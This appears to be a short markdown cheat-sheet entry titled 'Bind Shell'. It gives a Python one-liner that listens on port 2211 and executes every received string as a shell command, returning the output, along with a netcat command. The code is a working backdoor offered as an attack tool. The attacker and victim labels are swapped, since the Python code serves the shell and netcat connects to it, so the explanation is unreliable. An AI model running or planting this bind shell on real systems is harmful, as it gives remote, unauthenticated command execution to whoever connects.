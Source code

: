 ## Bind Shell

**IP**: `127.0.0.1`
**Port**: `2211`

**Initiator/Attacker/Hacker**

```bash
python3 -c 'exec("""import socket as s,subprocess as sp;
s1=s.socket(s.AF_INET,s.SOCK_STREAM);
s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);
s1.bind(("0.0.0.0",2211));
s1.listen(1);c,a=s1.accept();
while True: d=c.recv(1024).decode();
p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);
c.sendall(p.stdout.read()+p.stderr.read())""")'
```


**Listener/Victim/Target**
listening shell script
```bash
nc -lvnp 2211
```
